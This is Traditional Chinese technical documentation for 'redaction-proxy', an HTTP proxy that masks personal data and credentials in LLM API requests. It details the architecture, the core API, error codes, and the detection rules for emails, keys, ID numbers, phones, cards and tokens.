


# redaction-proxy 技術細節

這份文件是給要修改、審查或整合 redaction-proxy 的人看的完整技術參考。一般使用請先讀 [README](../README.zh-TW.md)。

## 目錄

1. [架構](#1-架構)
2. [核心 API](#2-核心-api)
3. [偵測規則](#3-偵測規則)
4. [遮罩順序與提示快取](#4-遮罩順序與提示快取)
5. [不遮就轉送的欄位](#5-不遮就轉送的欄位)
6. [拒絕與錯誤狀態碼](#6-拒絕與錯誤狀態碼)
7. [串流還原](#7-串流還原)
8. [對話內編號與 previous_response_id](#8-對話內編號與-previous_response_id)
9. [控制字元篩檢](#9-控制字元篩檢)
10. [日誌](#10-日誌)
11. [威脅模型](#11-威脅模型)
12. [完整設定](#12-完整設定)
13. [測試](#13-測試)
14. [誤遮率量測方法](#14-誤遮率量測方法)
15. [尚待完成](#15-尚待完成)
16. [人名模型（實驗性）](#16-人名模型實驗性)
17. [完整限制清單](#17-完整限制清單)
18. [實測數字](#18-實測數字)
19. [常見問題](#19-常見問題)
20. [README 圖片與影片](#20-readme-圖片與影片)
- [來源聲明](#來源聲明)

## 1. 架構

| 目錄 | 內容 |
| --- | --- |
| `src/core/` | 遮罩核心：規則、佔位符引擎、嚴格與串流還原。匯出的核心（`lib/core/index.js`，不含 `model/`）只依賴 Node 標準函式庫，沒有宿主型別。 |
| `src/core/rules/` | 規則偵測器 `RulesDetector`：各規則、需自行啟用的國際規則（`international.ts`）與延伸規則（`extended.ts`）、檢查碼演算法（`checksum.ts`）、NFKC 投影、百分比解碼投影、同值擴散、輸入篩檢。 |
| `src/core/model/` | 實驗性人名模型；動態載入選用的 onnxruntime-node 與 tokenizers。 |
| `src/proxy/config.ts` | 設定檔載入與驗證。 |
| `src/proxy/server.ts` | HTTP 代理：收集可遮字串、遮罩、外洩檢查、轉送、JSON 與 SSE 還原。 |
| `src/cli.ts` | 命令列 `redaction-proxy [--config path]`；`--demo` 跑免金鑰示範（`src/demo.ts`，即 `pnpm demo`）。 |
| `bench/` | 誤遮率量測（`pnpm bench`）。 |

DeepSeek Harness 透過 dsh-addons 的 redaction 套件以 git submodule（`dsh-addons/vendor/redaction-proxy`）使用這份核心；核心只在這個儲存庫修改。[dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router) 目前還有自己的串流還原器，未來預計統一到這裡的 `createStreamRestorer`。

和 dsh-privacy-router 的差別：

| | redaction-proxy（本儲存庫） | [dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router) |
| --- | --- | --- |
| 形式 | 獨立的 HTTP 代理 | dsh 的外掛 |
| 用戶端 | 任何 OpenAI 或 Anthropic 相容用戶端 | 只限 dsh |
| 路由 | 不路由：每個請求都遮罩後送往上游 | 每一輪決定送本機模型還是雲端 |
| 本機模型 | 不需要 | 需要 |
| 遮罩核心 | 在這裡（`src/core/`） | dsh-addons 的 redaction 套件以 git submodule 引用這份核心 |
| 串流還原 | `src/core/restore.ts` | 仍有自己的還原器，未來預計統一 |

每個請求的基本行為：

- 同一個值在同一個請求中一律用同一個佔位符。
- 代理不保存佔位符對照表。每次請求都從完整歷史重新編號，所以同一段對話每一輪的編號一致，上游的提示快取照常生效。記憶體中只有兩樣狀態，都依用戶端憑證分開、重啟即消失：Responses API 接續用的先前輸入（[第 8 節](#8-對話內編號與-previous_response_id)，最多 256 份），以及偵測到的原始值（[已知原始值](#已知原始值)，預設從最後一次偵測起保留 24 小時）。
- 遮罩後若在請求中仍找得到偵測到的值，代理會拒絕送出（422），而不是冒險外洩（預設；`sendWhenMaskFails` 見第 6 節）。規則偵測到的值在任何位置都算，連黏在較長字串裡也算（`tel0912345678`）。[人名模型](#16-人名模型實驗性)找到的值若是以空格分詞的文字，只算完整單字，所以 `Leeds` 裡的 `Lee` 不算外洩；中文、日文、韓文的值在任何位置都算。
- 金鑰照常由用戶端送出，代理原樣轉送，從不儲存。

一個請求的處理順序（`server.ts` 的 `forward`）：



圖中省略了路由比對之前的入口檢查（來源、`Host`、權杖、方法、大小），見[第 6 節](#6-拒絕與錯誤狀態碼)；還原的規則見[第 7 節](#7-串流還原)。

## 2. 核心 API

`src/core/index.ts` 匯出：

| 名稱 | 用途 |
| --- | --- |
| `mask(detector, texts, index)` | 遮罩一組具位置的字串，回傳遮罩後字串、新的 span、已套用的 span、保留的 id，以及記憶體中的 `registry`。 |
| `restore(output, registry)` | 嚴格還原：未綁定的 id 或不成對的分隔符會讓整段失敗（`unknown-placeholder` 或 `malformed-placeholder`）。 |
| `createStreamRestorer(registry, { json })` | 寬鬆的串流還原器，永不失敗，詳見第 7 節。 |
| `restoreLenient` | 一次性的寬鬆還原。 |
| `RulesDetector`、`resolveRulesConfig`、`RULE_NAMES`、`DEFAULT_RULE_NAMES`、`INTERNATIONAL_RULE_NAMES`、`EXTENDED_RULE_NAMES`、`DEFAULT_ALLOWLIST`、`DETECTOR_VERSION`、`INTERNATIONAL_RULES_VERSION`、`EXTENDED_RULES_VERSION` | 規則偵測器與其設定。`DETECTOR_VERSION` 目前是 `rules-12`；啟用任一國際規則時加上 `+intl-2`，啟用任一延伸規則時加上 `+ext-1`（兩者都啟用時是 `rules-12+intl-2+ext-1`）。 |
| `isTaiwanNationalId` | 身分證與居留證檢查碼驗證。 |
| `isTaiwanBusinessNumber` | 統一編號（8 碼）檢查碼驗證。 |
| `screenText` | 輸入篩檢，詳見第 9 節。 |
| `emptyRedactionIndex`、`foldRedactionScan` | 給需要持久化掃描結果的宿主使用的 span 索引。 |
| `placeholder`、`applySpans`、`PLACEHOLDER_OPEN`、`PLACEHOLDER_CLOSE`、`REDACTION_ID_PATTERN` | 佔位符格式工具。id 格式為 `^[A-Z][A-Z0-9]*_[1-9]\d*$`。 |
| `RedactionError` | 遮罩拒絕輸入時拋出，`code` 為 `unsupported`、`conflict` 或 `policy`。 |

`RedactionError` 的三種代碼：

| 代碼 | 意義 |
| --- | --- |
| `unsupported` | 文字中已含佔位符分隔符 `⟦` 或 `⟧`。 |
| `conflict` | 記錄的 span 對不上目前文字、兩個原始值共用一個 id，或已綁定 id 的字面形式出現在原文中。 |
| `policy` | 索引是在另一個偵測政策下記錄的，類別集合不能在 session 中途擴充。 |

錯誤訊息只含位置、id 與摘要值，絕不含原始值。`registry` 只存在記憶體，從不序列化；每次 `mask` 都從收到的文字重建。代理本身每次都傳入 `emptyRedactionIndex()`，不保存索引。

## 3. 偵測規則

| 規則 | 類別 | 細節 |
| --- | --- | --- |
| `email` | `EMAIL` | 以 `@` 為錨點、有上限地向兩側展開。也接受防爬寫法：`＠`、`(at)`、`[at]`，以及網域中的 `[dot]`、`(dot)`；這些寫法要求頂級網域是兩字母國碼或常見 gTLD（`com`、`org`、`dev`、`test` 等）。`@`、`＠` 必須緊貼前後兩段；`(at)`、`[at]` 兩側可有空白（不跨行），此時頂級網域須全小寫、本地部分須是以 `.`、`_`、`+` 連接的字（`wang.yichun`）且不以 `self.`、`this.` 等程式根開頭。`name @ domain`（`@` 兩側有空白）與單獨的 ` at ` **不遮**：shell 提示字元（`root @ web01.example.com`）、帳號標記（`cc @ alice.me`、`meet @ cafe.tw`）、英文散文（`socket.io at github.com`、`contact fly.io at community.fly.io`）與矩陣程式碼（`layer.weight @ state.dx`）在字面上與地址無法區分；頂級網域白名單與關鍵詞閘門都試過，前者擋不住誤遮、後者使召回掉到 41/54。這類 email 只有隱私分類器把關。 |
| `user-path` | `PATH` | 只遮家目錄前綴（`/Users/x`、`/home/x`、`C:\Users\x`、`~x/`），含 JSON 跳脫形式；路徑其餘部分保持可讀。 |
| `api-key` | `KEY` | PEM、AWS `AKIA`/`ASIA`、GitHub `ghp_` 系列、`sk-`、Slack `xox` 與 webhook、Google `AIza`、JWT、`Authorization`/`Bearer`、URL 中的帳密、`curl -u`、`--password x`，以及鍵名代表憑證的 `key=value` 指派（含中英文關鍵詞）。值是 schema 用字、聊天協定的欄位名稱、角色與內容類型、型別名稱、遮蔽寫法或範本佔位時不遮（`password: required`、`text`、`assistant`、`messages`、`str`、`***`、`xxx`、`<redacted>`、`your-password`、`<your secret>`、`{password}`、`{{ secrets.DB_PW }}`、`${{ secrets.PW2 }}`），因為這類字被綁成憑證後，之後每個請求的 `role`、`type` 欄位與欄位名稱都會對到它；雙大括號範本可含數字，單大括號中有數字的值是字面值（`{hunter2}` 照常遮）。OpenAI Chat Completions、Responses 與 Anthropic Messages API 的請求與回應欄位名稱（`password: max_tokens`、`top_p`、`temperature`、`metadata`、`reasoning`、`truncation`、`tool_calls`、`cache_control`）不論是否加引號、是否在 `.env` 行上、大小寫為何都不遮（`{"password":"max_tokens"}`、`DB_PASSWORD=cache_control` 也不遮），因為遮了會讓同一請求中同名的 JSON 鍵被外洩檢查擋下（422），而 Anthropic 每個請求都帶 `max_tokens`。由 API 欄位用字組成的其他 snake_case 值（`data_store`、`web_server`、`blue_horse_battery`）照常遮；`admin`、`changeme`、`123456` 這類弱密碼是真的密碼，照常遮（`.env` 範例的 `DB_PASSWORD=changeme` 也會遮）。未加引號的值中，後面緊接英數字或非 ASCII 的字母、數字、符號的引號屬於值（`password: ab"cd12ef`、`password: p@ss"🔑x12`）；其他引號結束外層字串。 |
| `tw-national-id` | `TWID` | 身分證字號（第二碼 1/2）與居留證號（第二碼 8/9），**驗證檢查碼**。也接受字母後（`A 123456789`）或第四字元後（`A123-456789`）的一個空白或連字號；其他位置的分隔不算。 |
| `phone` | `PHONE` | 手機 `09xx-xxx-xxx`、`09-xxxx-xxxx`、`09 xxxx xxxx`（同一種分隔符）與 `+886` 形式不需關鍵詞，前後緊鄰英文字母或數字時不遮（雜湊值 `…e5a0912345678dd…`、`abc0912345678`），中間四碼像年份（`09-2026-1005`）時視為日期不遮；市話（`02-2345-6789`、`(02)2345-6789`）需在「電話」、tel 等關鍵詞之後。 |
| `tax-id` | `TAXID` | 「統一編號」、「統編」、tax id、VAT 等關鍵詞後的 8 碼數字。中間有一個空白或連字號（`統編 3208-5109`）時須通過統編檢查碼。同一段數字也符合市話關鍵詞（`聯絡…統編：02086968`）時報為 `TAXID`。 |
| `card` | `CARD` | 13–19 碼、**Luhn 驗證**、檢查發卡機構前綴，並把視窗錨定在數字組邊界，避免遮到時間戳與 snowflake id。 |
| `ip` | `IP` | RFC 1918 私有位址，並檢查每段數值。 |
| `host` | `HOST` | `.local`、`.lan`、`.internal` 主機名。 |
| `entropy` | `ENTROPY` | 32 字元以上的高熵 hex，或大小寫與數字混合的 base64；`commit`、`sha`、`hash` 等字旁的雜湊放過。緊鄰憑證字眼的高熵字串改報為 `KEY`。 |
| `terms` | `TERM` | 你指定的字面值，在 NFKC 投影上不分大小寫比對，也比對 `\uXXXX` 跳脫形式。字面值在字母、數字、中日韓字元交界與每個中日韓字元之間可有任意個或沒有分隔符（空白、換行與縮排、`-`、`_`、`‧`、`・`、`·`），所以 `星河計畫` 也比對 `星河 計畫`、`星河-計畫`、`星河  計畫`，`NIMBUS-7` 也比對 `NIMBUS 7`、`NIMBUS_7`、`nimbus7`、`NIMBUS - 7`，`Margaret Holloway` 也比對兩個空格或換到下一行縮排的寫法。每種寫法各有自己的佔位符，還原時逐位元組寫回原本的寫法；比對仍不分大小寫與分隔符，所以每種寫法都會被遮。字面值首尾是英文字母或數字時只比對完整的詞：在 NFKC 投影上，比對範圍前後緊鄰的字元不得是英文字母或數字（緊接在無效 `%80`–`%FF` 之後的左側算邊界），或在原文中，比對範圍前後緊鄰的不是以空格分詞的文字的字母或數字（外洩檢查用的同一條判斷，見第 6 節），兩者之一成立就遮，所以 `Lin` 不遮 `online`、`Linux`，`Hsin` 不遮 `Hsinchu`，`Whitlock` 不遮 `Whitlocks`，`Nimbus` 不遮 `NimbusCloud`、`nimbusinc.example`，但遮 `Lin's`、`(Lin)`、`Lin,`、`nimbus-cli` 中的 `nimbus`，也遮投影讀成 `oriontm`、`linno5`、`lintmx`、`linux` 的 `Orion™`、`Lin№5`、`Lin™x` 與中間夾零寬字元或軟連字號的 `Lin\u00ADux` 中的 `Orion`、`Lin`。原文中的鄰字是 BMP 以外的字母或數字（`Lin𝐀bc`）時與全形字（`LinＡbc`）一樣算黏著，不遮；零寬字元或軟連字號後接的組合符號算在前一個字母上，所以投影讀成 `Orioń` 的 `Orion\u200B\u0301` 不遮，外洩檢查也不算；百分比解碼後再判斷，所以 `a%20Lin` 照常遮。首尾是中日韓字元時在文字中照常比對（`林小姐姐` 遮 `林小姐`），`\uXXXX` 跳脫形式不檢查邊界。同值擴散使用同一條邊界。 |
| `projectNames` | `PROJECT` | 同上，另一個類別。 |

### 國際規則

以下 24 條規則偵測臺灣以外核發的識別碼與電話號碼。核心函式庫預設**不啟用**（`DEFAULT_RULE_NAMES` 只有上表 10 條），代理預設全部啟用（第 12 節）。有檢查碼的都驗證；沒有檢查碼、或裸數字看起來和任何日誌 id 一樣的，只在分組寫法或關鍵詞後面才遮。

| 規則 | 類別 | 驗證與條件 |
| --- | --- | --- |
| `iban` | `IBAN` | ISO 13616 mod-97，且長度符合 SWIFT 登錄表中該國的長度。連續寫法或每 4 字元一個空格；只認大寫。 |
| `e164-phone` | `PHONE` | `+`、已分配的 ITU 國碼、含國碼共 10–15 位數；數字間可有一個空格、點或連字號，區碼可加括號（`+1 (415) 555-0132`）。前面是英數字、`+`、`)`、`]`、`.` 時不算（`1e+10`、`f(x)+12345678901`）。在行首只認分組寫法：國碼後以空格或連字號分組、第一組之後每組至少 2 碼（`+44 20 7946 0958`、`+33 1 23 45 67 89`、`+44 (0)20 7946 0958`）；diff 的 `+` 新增行標記會讓以數字或時間戳開頭的新增行（`+2026-02-27 17:06`、`+1792055696732,…`）看起來像國際電話，所以行首的連寫數字與點分隔不算。代價：diff 中以 `12 34 56 78 90` 這類空格分組數字開頭的新增行會被遮。`+` 後接日期（`+2026-10-05 12`）也不算。沒有檢查碼。 |
| `eu-vat` | `TAXID` | `AT`、`BE`、`DE`、`ES`、`FR`、`IT`、`NL`、`PL` 前綴，各國檢查碼（DE 為 ISO 7064 MOD 11,10，FR 為 SIREN 金鑰，IT 為 Luhn，NL 為十一檢驗或 mod-97，BE 為 mod-97，PL 為加權 mod 11，AT 為 UID 檢查碼，ES 為 DNI/NIE 字母）。 |
| `us-ssn` | `NATID` | `123-45-6789` 或 `123 45 6789`（同一種分隔符），或 `SSN`、`social security` 等關鍵詞後的 9 碼。排除 000、666、900–999 區號，00 組號、0000 序號。沒有檢查碼。 |
| `us-itin` | `NATID` | 同上的寫法，區號 9xx 且組號在 50–65、70–88、90–92、94–99。 |
| `uk-nino` | `NATID` | 兩個前綴字母（排除 D、F、I、Q、U、V，第二字不為 O，排除 BG、GB、KN、NK、NT、TN、ZZ）、6 碼、A–D 字尾；連寫或 `AB 12 34 56 C`。沒有檢查碼。 |
| `de-tax-id` | `NATID` | 只在 `Steuer-ID`、`IdNr`、`TIN` 等關鍵詞後。11 碼不以 0 開頭、前 10 碼恰有一個數字出現 2 或 3 次（不連續 3 次）、ISO 7064 MOD 11,10。 |
| `fr-nir` | `NATID` | Carte Vitale 的空格寫法（`1 85 05 78 006 084 91`），或 `NIR`、`INSEE`、`sécurité sociale` 等關鍵詞後的 15 碼。金鑰為 97 減去前 13 碼除以 97 的餘數，科西嘉 `2A`、`2B` 照規定換算。 |
| `es-dni` | `NATID` | DNI（8 碼加字母）與 NIE（`X`、`Y`、`Z` 加 7 碼加字母），字母為 mod 23 檢查字母。 |
| `it-fiscal-code` | `NATID` | 16 字元結構（含 omocodia 替代字母）與奇偶位檢查字元。 |
| `cn-resident-id` | `NATID` | 18 碼：已知省級代碼、真實出生日期（1900–2099）、ISO 7064 MOD 11-2 檢查字元（`X` 也可小寫）。 |
| `cn-mobile` | `PHONE` | `138-1234-5678`、`138 1234 5678`（同一種分隔符）、`+86` 形式，或「手机」、「电话」、「联系」等關鍵詞後的 11 碼。 |
| `hk-id` | `NATID` | `A123456(3)` 括號寫法，或 `HKID`、`身份證` 等關鍵詞後不加括號的寫法；mod 11 檢查字元。 |
| `jp-my-number` | `NATID` | 只在「マイナンバー」、「個人番号」、`my number` 後。12 碼，可 4-4-4 分組，檢查碼驗證。 |
| `jp-mobile` | `PHONE` | `090-1234-5678`（同一種分隔符）、`+81 90-1234-5678`，或「携帯」、tel 等關鍵詞後的 11 碼。 |
| `kr-rrn` | `NATID` | `YYMMDD-NNNNNNN`：性別與世紀碼 1–8、真實出生日期、加權 mod 11 檢查碼。**2020 年 10 月以後核發**的號碼末段是隨機數字、沒有檢查碼，偵測不到。 |
| `us-phone` | `PHONE` | 北美號碼：`(415) 555-0132`、`(415)-555-0132`，或同一種分隔符的 `415-555-0132`、`415.555.0132`，可加 `+1`、`1` 前綴；連字號也可以是 en dash（U+2013）或減號（U+2212）。區碼與局碼以 2–9 開頭。空格分隔與連寫 10 碼看起來像表格列與訂單號，只由 `phone-keyword` 在關鍵詞後遮。沒有檢查碼：任何區碼與局碼以 2–9 開頭的 `NNN-NNN-NNNN` 都會被遮。 |
| `uk-phone` | `PHONE` | 英國國內寫法：`020 7946 0958`、`0161 496 0000`、`01632 960123`、`07700 900123`、`07700 900 123`，以及常見的倫敦寫法 `0207 946 0958`。 |
| `fr-phone` | `PHONE` | 法國五組兩碼、同一種分隔符：`01 23 45 67 89`、`06.12.34.56.78`、`06-12-34-56-78`。更長的兩碼數列（十六進位傾印）不算。 |
| `jp-phone` | `PHONE` | 日本市話：三組以同一種連字號（含 en dash、減號）分隔、共 10 碼、區碼不以 0 開頭（`03-1234-5678`、`045-123-4567`、`0120-123-456`），或括號區碼（`(03) 1234-5678`）。10 碼的韓國與臺灣市話也是這個形狀，同樣報為 `PHONE`。 |
| `kr-mobile` | `PHONE` | `010-1234-5678`（同一種分隔符）、`+82 10-1234-5678`，或「전화」、tel 等關鍵詞後的 11 碼。 |
| `kr-phone` | `PHONE` | 韓國市話：首爾 `02` 或地區區碼 `031`–`064`，再接 3 或 4 碼與 4 碼，同一種連字號：`02-123-4567`、`031-1234-5678`。沒有檢查碼。 |
| `br-phone` | `PHONE` | 括號區碼：`(11) 91234-5678`、`(11) 9 1234-5678`、`(21) 3456-7890`。 |
| `phone-keyword` | `PHONE` | 英、德、法、西、葡、丹麥與挪威、俄、中、日、韓的電話關鍵詞（`phone`、`Ph`、`tel`、`mobile`、`mob`、`cel`、`call me at`、`Telefon`、`Handy`、`téléphone`、`Tlf`、`телефон`、`celular`、`電話`、`携帯`、`전화` 等）後的號碼。字眼與號碼之間最多 8 個標點、空白或非 ASCII 字元（`電話番号は`），可再加一個 `is`、`at`、`on`、`No`、`Nr`（`Tel. No. `、`Tel.-Nr.: `）；中間有其他英文字時不算（`phone count 12345678`），代價是括號說明（`Tel (office) 030 12345678`）也不算。號碼可有 `+` 國碼、括號區碼，數字組之間各一個空格、點、斜線或連字號，共 8–15 碼；日期（含空格分隔的 `2026 10 07`）與 IPv4 位址（`SIP phone 10.20.30.40`）不算，也不從被跳過的數字組中間開始讀。字眼前後緊貼英數字或 `_` 時不算字眼（`cell_id`、`tel_ext`），`phone_number`、`mobile_no` 例外。涵蓋沒有獨特寫法的德國、印度等號碼與連寫號碼。 |

- **一個類別給所有外國身分證號。** 臺灣以外的國民身分證號、稅籍號碼都用 `NATID`；模型不需要知道是哪一國，類別越少，外洩的資訊越少。IBAN 用新類別 `IBAN`，國際電話與手機沿用 `PHONE`，VAT 沿用 `TAXID`。
- **不做 SWIFT/BIC。** BIC 沒有檢查碼，形式是 8 或 11 個大寫英數字，和常數名稱（`ABSTRACT`、`FUNCTION`）無法區分；它識別的是銀行，不是個人。
- **電話規則的取捨。** 有獨特寫法（括號區碼、固定分組、`0` 開頭）的國內格式不需關鍵詞；沒有獨特寫法的（德國 `030 12345678`、印度 `98765 43210`、北美空格寫法、連寫號碼）只在關鍵詞後遮，因為這些形狀和表格列、訂單號、時間戳無法區分。
- **卡號規則不變。** `card` 已涵蓋 Visa、Mastercard、Amex、JCB、銀聯、Discover、Diners 的前綴；俄羅斯 Mir（2200–2204）不在其中。加入它會改變預設規則的結果，也就改變預設的政策摘要，所以暫不加入。
- **與卡號重疊時。** 一個 18 碼的中國身分證號若同時通過 Luhn 與發卡機構前綴，啟用國際規則時報為 `NATID`，預設規則下報為 `CARD`：國際規則在卡號規則之前提出，同長度同優先順序時先提出者勝出。
- **百分比編碼與全形。** 國際規則與延伸規則與其他規則一樣在 NFKC 投影與百分比解碼投影上執行，所以全形 IBAN、`tel=%2B44%2020…` 也抓得到。國際規則**沒有**「緊接在無效 `%XX` 之後」的左邊界變體：`%E6+44…` 這類截斷編碼後面的值不偵測。

### 延伸規則

以下 10 條規則放寬或收緊預設規則，但不改動預設規則本身：預設規則的結果決定持久化 span 索引的宿主所記錄的政策摘要（第 12 節），所以預設規則保持原樣，修正與擴充放在需自行啟用的新規則。核心函式庫預設不啟用，代理預設全部啟用，並以 `card-strict`、`entropy-strict` 取代 `card`、`entropy`。同時啟用 `card` 與 `card-strict`（或 `entropy` 與 `entropy-strict`）時，遮的是兩者的聯集，也就是預設規則的結果。

| 規則 | 類別 | 細節 |
| --- | --- | --- |
| `card-strict` | `CARD` | 只認卡號的印刷寫法：一整組 13–19 碼（只有一組時可去掉一個開頭的 `0`），或以同一種分隔符連接、符合卡號分組（4-4-4-4、4-4-4-4-3、4-4-4-3、Amex 4-6-5、Diners 4-6-4）且前後沒有同一分隔符的更多組；其他寫法則把整段讀成一個號碼：二到六組、每組至少 2 碼，以空格、`-` 或一個換行連接，或三到六組只以 `.` 連接，整段 13–19 碼且通過 Luhn 才遮（`41 1111 111 1111 111`、`4111.1111.1111.1111`、`4111 1111-1111 1111`、在中間換行的卡號）。遮罩不會結束在數字組中間。緊貼英文字母或 `_`、在 `..` 版本範圍之後、或是小數的小數部分（`1432.4982166290283`）的數字不讀。`card` 會把 `ports 8000 5259-6589 0921-9030` 遮成 `ports 8000 ⟦CARD_1⟧30`、把純數字 UUID 的後兩組與 commit 訊息裡的 `abc12..4931245 1234567` 片段遮成卡號，`card-strict` 都不遮。代價：`4111 1111 1111 1111 1234`（卡號後緊接一組同分隔符的數字）不遮；`.` 與其他分隔符混用（`4111 1111-1111.1111`，包括 `.` 兩側加空格與點分隔的卡號換行）或超過六組的寫法不遮，隨機混用空格、`-`、`.` 的合成卡號只完全遮蔽約 30%；以 3–6 開頭的整數列與兩行數字表格（`4532 1234` 換行 `5678 9012`）和重新分組或換行的卡號無法區分，通過 Luhn 時（合成樣本約 8–11%）會被遮成卡號。 |
| `entropy-strict` | `ENTROPY`、`KEY` | 同 `entropy`，另外把以檔名為鍵的 40 或 64 碼十六進位值（`README.md: <sha>`，翻譯目錄記錄來源雜湊的寫法，含 diff 的 `+`、`-` 標記），以及緊接在 `@` 之後的 40 碼 commit id（`actions/checkout@<sha>`）視為雜湊放過。緊鄰憑證字眼時仍報為 `KEY`。 |
| `private-host` | `HOST` | `.corp`、`.intra`、`.intranet`、`.localdomain`、`.home.arpa`（RFC 8375）主機名，含後綴之後的標籤（`jenkins.corp.example.com` 整段遮）。只認小寫：`Contoso.Corp.Billing` 是命名空間。反向網域的套件名（`com.acme.intra.Billing`）、檔名（`settings.corp.yaml`）、程式成員（`this.corp`）與呼叫不算。`.home`、`.private` 不列入：`user.home`、`this.private` 是程式碼。 |
| `token-format` | `KEY` | `api-key` 沒列的廠商格式：GitLab `glpat-`、Stripe `sk_`/`rk_`（`live`、`test`；公開的 `pk_` 不算）與 `whsec_`、SendGrid `SG.`、Hugging Face `hf_`、npm `npm_`、Slack `xapp-`、Shopify `shpat_` 等、DigitalOcean `dop_v1_` 等、Atlassian `ATATT3`、Twilio `SK`、Square `EAAA`/`sq0atp-`、Grafana `glsa_`/`glc_`、Databricks `dapi`（這四家依 gitleaks 公開的格式）、Telegram bot token、payload 很短或沒有簽章（`alg: none`）的 JWT，以及 Azure 的 `AccountKey=`、`SharedAccessKey=`、SAS `sig=` 的值。 |
| `credential-phrase` | `KEY` | 散文中的憑證字眼（`api key`、`access token`、`token`、`secret`、`key`、`password`、`pw` 等，以及密碼的德、法、西、葡、中、日、韓說法 `Passwort`、`mot de passe`、`contraseña`、`senha`、`密碼`、`密码`、`パスワード`、`비밀번호`）、可選的 `is`、`was`、`:` 或該語言的對應詞（`ist`、`est`、`es`、`é`、`是`、`は`、`는`），以及其後的值，可加引號：`the secret is X`、`here is my key: X`、`use token 'X'`、`密码是 X`；字眼也可以是加引號的 JSON 鍵（`"jwt": "X"`、`"pw": "X"`），`jwt` 算一般字眼。加引號的中文憑證鍵（`"密碼": "x"`、`'令牌': 'x'`，字眼與 `api-key` 的中文關鍵詞相同）的值照 `api-key` 讀 `密碼: x` 的方式讀：3 字元以上且不是程式碼就遮。密碼類字眼後只要是含字母與數字或符號的可列印 ASCII 值即可（6 字元以上；結尾的 `?`、`!` 是句讀，不算符號；沒有字母時須是純數字的通行碼，日期與版本號不算；其後接中文等其他文字時不算）；一般字眼後須 16 字元以上、Shannon 熵至少 3.5、大小寫與數字混合或含數字的十六進位。網址、路徑、`$VAR`、`0x` 位址、成員鏈（`process.env.X`）、程式碼不算；`$PWD`、`this.key`、`--password` 不算字眼；`key = X` 指派留給 `api-key`。 |
| `tw-national-id-loose` | `TWID` | 預設 `tw-national-id` 不讀的身分證字號寫法：小寫字母開頭（`a123456789`），或數字間夾不換行空白、窄空白（U+00A0、U+2007、U+2009、U+202F，`A1234 56789`），位置不限。一樣**驗證檢查碼**（字母轉大寫後計算）。一般空白與連字號仍只認 `tw-national-id` 的兩個位置。 |
| `tw-passport-nhi` | `TWID` | 「護照」、「护照」、`passport`（可接 `number`、`no.`、`#`：`passport number is 312345678`）後的 9 碼護照號碼（可 3-3-3 以連字號分組：`312-345-678`），以及「健保卡」、`NHI card` 後的 12 碼健保卡號（可 4-4-4 分組，同一種空格或連字號）。兩者都沒有檢查碼，所以沒有關鍵詞時不遮：9 碼與 12 碼的數字和訂單號、追蹤 id 無法區分。 |
